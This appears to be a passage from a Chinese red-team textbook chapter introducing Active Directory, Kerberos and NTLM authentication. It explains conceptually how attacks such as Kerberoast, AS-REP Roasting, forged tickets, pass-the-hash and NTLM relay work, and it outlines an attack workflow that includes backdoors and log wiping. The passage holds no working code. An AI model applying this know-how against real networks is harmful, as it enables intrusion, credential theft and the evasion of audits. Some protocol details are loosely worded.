







# 第49章 域渗透基础

> **难度等级：🟠 高等级**
>
> **预计学习时间：180分钟**
>
> **本章看点：Active Directory基础、Kerberos认证原理、NTLM认证、域渗透基本思路、Kerberoast、AS-REP Roasting、白银票据、黄金票据、5个实战案例**

::: tip 说明
前面几章我们学习了
内网信息收集和横向移动，
从这一章开始，
我们正式进入域渗透的世界。

什么是域？
简单说就是
Windows网络操作系统的
一种管理模式，
可以集中管理很多计算机和用户。

企业里几乎都有域，
所以域渗透是内网渗透的核心，
也是红队必须掌握的技能。

这一章我们先学习域渗透的基础，
包括Active Directory、
Kerberos认证原理、
常见的域渗透攻击手法等。

内容比较多，
也比较抽象，
大家耐心学，
基础打牢了后面才好学。

准备好了吗？
开始！
:::

---

> 💡 **大白话说Kerberos认证**
>
> Kerberos是域环境最难理解的概念。用大白话说：
>
> 想象一个**酒店入住**的场景：
> 1. 你（用户）去**前台**（域控/KDC）登记入住
> 2. 前台验证你的身份证，给你一张**房卡**（TGT，Ticket Granting Ticket）
> 3. 你拿着房卡去**餐厅**（某个服务器），餐厅说"我得看看你的房卡"
> 4. 你用房卡去前台换一张**餐厅专用券**（ST，Service Ticket）
> 5. 把餐厅专用券给餐厅，餐厅认了，开始服务
>
> **黄金票据（Golden Ticket）** = 你伪造了前台的"万能制卡机"，能制造去任何餐厅的券
> **白银票据（Silver Ticket）** = 你伪造了某家餐厅的"内部通行证"，不需要经过前台
>
> 黄金票据攻击域控（KDC），白银票据攻击具体的服务。黄金比白银权限更大，因为可以访问任何服务。

## 📖 本章概述

::: tip 写在前面
很多人听到"域渗透"三个字，
就觉得很高深、很难。
其实域渗透并没有那么神秘，
它就是内网渗透的一种，
只不过目标环境是域环境而已。

域环境和工作组环境有什么不同？
- 工作组：每台机器自己管自己
- 域：有一个域控（DC）统一管理

域的好处是管理员方便，
不用一台一台机器去配置，
在域控上改一下，
所有机器都生效。

但对我们渗透测试人员来说，
域环境也有"好处"：
- 只要拿下域控，整个域就都归你了
- 域内有很多信任关系、ACL关系可以利用
- 有很多经典的攻击手法（Kerberoast、黄金票据等）

域渗透的学习路径：
1. 先了解AD（Active Directory）的基本概念
2. 理解认证协议（Kerberos、NTLM）
3. 学习常见的域渗透攻击手法
4. 学习域内的权限提升和横向移动
5. 学习拿下域控的各种方法
6. 实战练习

这一章我们先打基础，
下一章再讲进阶的内容。
:::

---

## 🎯 学习目标

读完本章，你将能够：

- [x] 理解Active Directory的基本概念
- [x] 理解Kerberos认证的原理
- [x] 理解NTLM认证的原理
- [x] 掌握域渗透的基本思路
- [x] 学会Kerberoast攻击
- [x] 学会AS-REP Roasting攻击
- [x] 理解白银票据和黄金票据
- [x] 了解常见的域渗透工具

---

## 🏛️ Active Directory 基础

### 1.1 什么是Active Directory？

Active Directory（简称AD），
中文名"活动目录"，
是微软开发的
目录服务，
主要用在Windows域环境中。

**AD里存了什么？**
- 用户账户（User）
- 计算机账户（Computer）
- 组（Group）
- 组织单元（OU）
- 组策略（GPO）
- 域控制器（DC）
- 等等...

你可以把AD理解成一个
企业的"通讯录"或者"花名册"，
里面记录了所有人、所有机器、
所有组、所有权限的信息。

而**域控制器（Domain Controller，DC）**
就是运行AD的服务器，
是整个域的核心。

### 1.2 域的基本概念

**域（Domain）：**
一个安全边界，
域内的计算机和用户
由域控统一管理。

例如：`corp.com`

**域树（Domain Tree）：**
多个域组成一棵树，
有父子关系，
共用一个配置。

例如：
- corp.com（根域）
- usa.corp.com（子域）
- china.corp.com（子域）

**域林（Forest）：**
多棵树组成一片森林，
共用一个Schema（架构）。

例如：
- corp.com（第一棵树）
- othercompany.com（第二棵树）

**信任关系（Trust）：**
域之间可以建立信任，
这样A域的用户可以访问B域的资源。

常见的信任类型：
- 父-子信任
- 林信任
- 外部信任
- 快捷信任

### 1.3 AD中的对象

**用户（User）：**
最常见的对象，
代表人或者服务账号。

**计算机（Computer）：**
域内的每台计算机
都有一个计算机账户，
格式是`机器名$`，
比如`WEB01$`。

计算机账户也是一种特殊的用户，
也有密码，也可以登录。

**组（Group）：**
用户的集合，
方便管理权限。

常见的组：
- Domain Admins（域管理员）
- Enterprise Admins（企业管理员）
- Domain Users（域用户）
- Domain Computers（域计算机）
- Schema Admins（架构管理员）
- 等等...

**组织单元（OU）：**
相当于文件夹，
用来组织和管理对象。
可以在OU上应用组策略。

**组策略（GPO）：**
Group Policy Object，
可以批量配置计算机和用户的设置。
比如密码策略、开机脚本、桌面壁纸等。

### 1.4 AD的逻辑结构

**域（Domain）** → **OU（组织单元）** → **对象（用户、计算机、组...）**

就像：
公司 → 部门 → 员工

**图49-1 Active Directory 逻辑结构层次图**



### 1.5 FSMO角色

FSMO（Flexible Single Master Operation）
灵活单主机操作，
说白了就是域里有几个特殊的角色，
只能由特定的DC来担任。

**5个FSMO角色：**

| 角色 | 作用 | 范围 |
|------|------|------|
| Schema Master（架构主机） | 修改AD架构 | 林 |
| Domain Naming Master（域命名主机） | 添加/删除域 | 林 |
| PDC Emulator（PDC模拟器） | 密码更新、时间同步等 | 域 |
| RID Master（RID主机） | 分配RID池 | 域 |
| Infrastructure Master（基础结构主机） | 处理跨域引用 | 域 |

一般来说，
PDC模拟器是最重要的，
很多攻击都针对PDC。

**图49-2 FSMO 五大角色按作用范围分布图**



### 1.6 安全标识符（SID）

SID（Security Identifier）
是安全标识符，
每个用户、组、计算机
都有一个唯一的SID。

**SID的格式：**
`S-版本号-权威值-子权威值...-相对ID(RID)`

例如：
`S-1-5-21-1234567890-1234567890-1234567890-500`

**几个特殊的RID：**
- 500 — 管理员（Administrator）
- 501 — 来宾（Guest）
- 502 — KRBTGT账户
- 512 — Domain Admins（域管理员组）
- 513 — Domain Users（域用户组）
- 515 — Domain Computers（域计算机组）
- 516 — Domain Controllers（域控制器组）

**注意：**
域SID是前面的部分，
比如`S-1-5-21-xxxx-xxxx-xxxx`，
后面的RID是相对ID。

---

## 🔐 Kerberos 认证原理

### 2.1 什么是Kerberos？

Kerberos是一种网络认证协议，
域环境中默认使用Kerberos认证。

名字来源于希腊神话里的
"三头犬"刻耳柏洛斯（Cerberus），
因为Kerberos有三方参与：
- 客户端（Client）
- 服务端（Server）
- 密钥分发中心（KDC）

KDC一般就是域控（DC），
负责发放票据。

### 2.2 Kerberos的几个基本概念

**KDC（Key Distribution Center）：**
密钥分发中心，
一般安装在域控上。

KDC包含两个服务：
- **AS（Authentication Service）** — 认证服务，发放TGT
- **TGS（Ticket Granting Service）** — 票据授权服务，发放ST

**TGT（Ticket Granting Ticket）：**
票据授权票据，
用KDC的密码加密的。
有了TGT，就可以申请其他服务的票据。

TGT的作用：
证明"你是谁"，
相当于入场券。

**ST（Service Ticket）：**
服务票据，
也叫TGS Ticket。
用来访问某个具体的服务，
用服务账号的密码加密。

**SPN（Service Principal Name）：**
服务主体名称，
可以理解为服务的"身份证"，
格式是：
`服务名/主机名:端口`

例如：
- `cifs/web01.corp.com`
- `http/web01.corp.com`
- `MSSQLSvc/sql01.corp.com:1433`

每个服务账号
可以注册多个SPN。

### 2.3 Kerberos认证流程

Kerberos认证分三步：

**第一步：AS-REQ & AS-REP（获取TGT）**

1. 客户端向KDC的AS服务
   发送AS-REQ请求，
   包含：用户名、时间戳（用用户密码加密）等。

2. KDC收到后，
   用用户密码解密验证，
   验证通过后，
   返回AS-REP，
   包含：
   - 会话密钥（用用户密码加密）
   - TGT（用krbtgt的密码加密）

客户端收到后，
用自己的密码解密，
拿到会话密钥和TGT。

**第二步：TGS-REQ & TGS-REP（获取ST）**

1. 客户端要访问某个服务，
   先向KDC的TGS服务
   发送TGS-REQ请求，
   包含：
   - TGT
   - 要访问的SPN（服务名）
   - 认证符（用会话密钥加密）

2. KDC验证TGT和认证符，
   验证通过后，
   返回TGS-REP，
   包含：
   - 服务会话密钥（用客户端和KDC的会话密钥加密）
   - ST（服务票据，用服务账号的密码加密）

**第三步：AP-REQ & AP-REP（访问服务）**

1. 客户端向目标服务
   发送AP-REQ请求，
   包含：
   - ST
   - 认证符（用服务会话密钥加密）

2. 服务端用自己的密码解密ST，
   验证认证符，
   验证通过，
   返回AP-REP（可选）。

然后客户端就可以访问服务了。

**用大白话总结一下：**
1. 你去游乐园，先到售票处（AS），用身份证（密码）换一张入场券（TGT）
2. 你要玩过山车，拿着入场券（TGT）到过山车售票口（TGS），换过山车的门票（ST）
3. 你拿着过山车门票（ST）去过山车那儿，检票通过就可以玩了

**图49-3 Kerberos 认证三步流程时序图**



### 2.4 预认证（Pre-Authentication）

什么是预认证？
就是在AS请求的时候，
客户端需要先用自己的密码
加密一个时间戳，
证明自己知道密码。

但是如果某个用户
关闭了"不需要预认证"
（Do not require Kerberos preauthentication），
那会怎么样？

那攻击者可以
直接向KDC请求该用户的TGT，
KDC会返回加密的TGT，
然后攻击者可以离线破解
这个TGT来获取用户密码。

这就是**AS-REP Roasting**攻击的原理。

### 2.5 Kerberos的几个关键点

1. **时间同步**
   Kerberos对时间很敏感，
   时间差一般不能超过5分钟，
   不然票据会失效。

2. **票据有效期**
   - TGT默认有效期10小时，可续订
   - ST有效期较短，一般几小时

3. **加密方式**
   Kerberos支持多种加密方式：
   - DES（老的，不安全）
   - RC4（就是NTLM Hash）
   - AES-128
   - AES-256

### 2.6 常见的Kerberos攻击

1. **Kerberoast攻击**
   申请SPN的服务票据（ST），
   然后离线破解服务账号的密码。

2. **AS-REP Roasting**
   对没有开启预认证的用户，
   请求TGT，然后离线破解。

3. **白银票据（Silver Ticket）**
   伪造服务票据（ST），
   需要服务账号的Hash。

4. **黄金票据（Golden Ticket）**
   伪造TGT，
   需要krbtgt的Hash。
   有了黄金票据，
   相当于拥有了域管理员权限。

5. **钻石票据（Diamond Ticket）**
   比黄金票据更高级、更隐蔽的票据伪造。

6. **PAC漏洞**
   比如MS14-068，
   普通用户可以伪造高权限票据。

7. **Constrained Delegation（约束委派）**
   利用委派关系进行攻击。

8. **Unconstrained Delegation（非约束委派）**
   也是一种委派攻击。

这些攻击我们后面会详细讲。

**图49-4 Kerberos 常见攻击与认证环节对应图**



---

## 🔑 NTLM 认证原理

### 3.1 什么是NTLM？

NTLM（NT LAN Manager）
是微软的另一种认证协议，
比Kerberos老，
但现在还在用。

**NTLM Hash：**
Windows保存的密码Hash，
格式是32位的十六进制数。
（其实就是MD4加密的结果）

注意：
NTLM Hash就是我们常说的
"Windows密码Hash"。

### 3.2 NTLM认证的类型

**NTLM有两种认证方式：**

**1. NTLM认证（本地认证）**
就是登录本机的时候用的，
直接和SAM数据库比对。

**2. NTLM网络认证（NTLM Challenge/Response）**
网络上的认证，
是一种质询/响应机制。

我们重点讲NTLM网络认证。

### 3.3 NTLM网络认证流程

NTLM网络认证有三个消息：

**第一步：NEGOTIATE**
客户端向服务器发起请求，
说"我要认证"。

**第二步：CHALLENGE**
服务器生成一个随机数（Challenge），
发给客户端。

**第三步：AUTHENTICATE**
客户端用自己的密码Hash
加密这个Challenge，
生成Response，发给服务器。

服务器收到Response后，
有两种验证方式：
- 如果是本地账户，自己验证
- 如果是域账户，发给DC验证

验证通过就认证成功。

**图49-5 NTLM 网络认证（质询/响应）流程时序图**



### 3.4 哈希传递（Pass-the-Hash）

那哈希传递是怎么回事呢？

因为NTLM认证的时候，
用的是密码的Hash，
不是明文密码。
所以只要有了Hash，
就可以计算Response，
通过认证。

这就是为什么
我们拿到NTLM Hash
就可以直接登录，
不需要破解出明文。

> 💡 **深入理解：为什么有了Hash就能通过NTLM认证？——"对暗号"的秘密**
>
> 很多人以为NTLM Challenge/Response像密码一样安全，
> 但实际上它的核心有个致命的设计问题。
>
> NTLM认证本质上是一个"对暗号"的过程：
> ```
> 客户端和服务器都知道你的密码Hash（像一个共享密钥）
>
> 服务器出题："请用这个随机数（Challenge）+ 你的Hash，算出答案"
> 客户端答题："用Hash加密Challenge → Response，这是我的答案"
> 服务器验证："我也用Hash加密这个Challenge，看答得对不对"
> ```
>
> 关键问题来了：**服务器怎么知道你的Hash？**
>
> 对于域环境：
> - 域控（DC）的 NTDS.dit 数据库里存着所有域用户的Hash
> - 服务器把Challenge和Response转给DC
> - DC说："对，他算对了，就是这个人"
>
> 所以NTLM不验证"你是谁"（identity），
> 只验证"你知道不知道Hash"（knowledge）。
>
> 任何人都可以拿着这个Hash去"答题"，
> 不管你是真的用户还是攻击者！
>
> 这就像：
> ```
> 门卫问："天王盖地虎"（Challenge）
> 真员工答："宝塔镇河妖"（Response，用Hash算出来的）
> 攻击者也有Hash → 也能算出"宝塔镇河妖" → 门卫放行！
> ```
>
> **门卫根本不知道对面是真人还是拿了密码本的攻击者！**
>
> 这就是哈希传递的本质：
> NTLM认证只检查"你知道Hash吗"，不检查"你真的是那个人吗"。
>
> 对比一下更安全的机制：
> - Kerberos有时间戳，票据会过期，还需要各种密钥
> - SSH可以用公私钥，私钥在本地，不会传给服务器
> - NTLM就是最原始的"对暗号"，谁有暗号谁就是自己人
>
> 这就是为什么域环境下拿到一个管理员的Hash几乎等于拿到管理员权限！

### 3.5 NTLM Relay（NTLM中继）

还有一种攻击叫NTLM中继，
简单说就是：
把A发来的认证请求，
转发给B，
冒充A去访问B。

比如：
- 攻击者诱导受害者
  访问攻击者的机器
- 攻击者把受害者的认证请求
  中继给目标服务器
- 这样攻击者就用受害者的身份
  登录了目标服务器

这就是NTLM Relay攻击。

> 💡 **深入理解：NTLM Relay 为什么能"转发认证"？——中间人攻击的经典运用**
>
> NTLM Relay 的精妙之处在于：**NTLM认证不绑定"对话通道"**。
>
> 什么意思？让我们看正常NTLM认证和Relay的区别：
>
> ```
> 正常NTLM认证：
> 客户端 ──NEGOTIATE──► 服务器 ──CHALLENGE──► 客户端 ──AUTHENTICATE──► 服务器
>         (同一个连接)          (同一个连接)          (同一个连接)
>
> NTLM Relay：
> 受害者 ──NEGOTIATE──► 攻击者 ──NEGOTIATE──► 目标服务器
> 受害者 ◄──CHALLENGE── 攻击者 ◄──CHALLENGE── 目标服务器
>         (攻击者把目标服务器的Challenge转给受害者)
> 受害者 ──RESPONSE───► 攻击者 ──RESPONSE───► 目标服务器
>         (攻击者把受害者的Response转给目标服务器)
>                                  目标服务器："嗯，Response正确，通过！"
> ```
>
> 攻击者在中间做的就是一个简单的"传话"工作，
> 把两边的消息对调转发。
>
> 关键是：**NTLM协议设计中，Response的计算不包含"目标服务器身份"！**
> 客户端算Response时只用了：Challenge + Hash
> 不管这个Challenge来自谁。
> 所以攻击者把目标服务器的Challenge给受害者，
> 受害者算出的Response对于目标服务器也是有效的！
>
> 这就像一个"三方言辞转述"游戏：
> ```
> 攻击者："小A，目标B问你'今天的暗号是什么'"
> 小A："'宝塔镇河妖'，你告诉他"
> 攻击者转给目标B："小A说'宝塔镇河妖'"
> 目标B："暗号正确！请进！" ← 以为是直接和小A对话
> ```
>
> **防御SMB签名的原理：**
> 如果启用了SMB签名，每条消息都带有"发送者身份签名"，
> 攻击者的转发的消息和不带签名的就无法通过验证。
> 这就是为什么打PTE/PTT时要注意目标是否开了SMB签名。

防御方法：
- 启用SMB签名
- 启用EPA（Extended Protection for Authentication）
- 等等...

### 3.6 NTLM vs Kerberos

| 特性 | NTLM | Kerberos |
|------|------|----------|
| 协议版本 | 老 | 新 |
| 安全性 | 较低 | 较高 |
| 是否需要第三方 | 不需要（两方） | 需要KDC（三方） |
| 支持的攻击 | PtH、Relay | PtT、Kerberoast、黄金票据... |
| 性能 | 简单但每次都要认证 | 有票据，更快 |
| 适用场景 | 工作组、跨域 | 域内 |

现在域环境默认用Kerberos，
但NTLM还在广泛使用。

---

## 🎯 域渗透基本思路

### 4.1 域渗透的一般流程

**第一步：获得初始访问权限**
通过各种方式拿到一个
域内机器的Shell，
或者一个域用户的权限。

比如：
- 钓鱼攻击
- 外部Web漏洞
- 物理接触
- 等等...

**第二步：信息收集**
收集域内的各种信息：
- 域基本信息（域名、域控、用户、计算机、组）
- 网络拓扑
- 权限关系
- 等等...

**第三步：权限提升**
在已控制的机器上提权，
或者提升域内的权限。

**第四步：凭据收集**
收集各种凭据：
- 明文密码
- NTLM Hash
- Kerberos票据
- 等等...

**第五步：横向移动**
从一台机器打到更多机器，
扩大控制范围。

**第六步：获取高权限**
想办法拿到域管理员权限，
或者直接拿下域控。

**第七步：权限维持**
留下后门，方便以后再来。

**第八步：痕迹清理**
清除日志，擦除痕迹。

当然，
实际渗透中不一定完全按这个顺序，
可能会循环往复。

**图49-6 域渗透一般流程图**



### 4.2 常见的拿域控的方法

1. **找到域管理员的凭据**
   抓到域管理员的密码或Hash，
   直接登录域控。

   怎么找？
   - 在域管理员登录过的机器上抓
   - 找域管理员的会话，偷令牌
   - 钓鱼钓域管理员

2. **利用漏洞打域控**
   比如：
   - MS17-010（永恒之蓝）
   - ZeroLogon（CVE-2020-1472）
   - PrintNightmare（CVE-2021-1675/34527）
